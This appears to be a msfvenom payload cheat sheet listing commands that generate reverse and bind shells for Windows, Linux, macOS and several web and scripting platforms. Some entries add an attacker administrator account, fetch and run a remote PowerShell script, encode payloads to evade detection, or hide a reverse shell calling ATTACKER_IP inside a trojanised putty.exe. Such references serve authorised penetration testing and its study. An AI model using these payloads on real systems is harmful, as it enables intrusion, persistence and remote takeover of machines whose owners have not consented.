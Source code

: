 

**Windows**

Reverse Shell
```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
Bind Shell
```Shell
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
Create User
```Shell
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
CMD Shell
```Shell
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
Execute Command
```Shell
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
Encoder
```Shell
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
Embeded inside an executable
```Shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Reverse HTTPS using C Sharp (for the encruptor.cs)
```Shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip/hostname> LPORT=443 EXITFUNC=thread -f csharp
```

**Linux**

Reverse Shell
```Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
Bind Shell
```Shell
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```

**MacOS**
Reverse Shell
```Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
Bind Shell
```Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

**Web Based**

**PHP**
```Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP/x**
```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

**JSP**
```Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```

**NodeJS**
```Shell
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```


**Other Platforms**

**Peral**
```Shell
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

**Python**
```Shell
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

**Bash**
```Shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
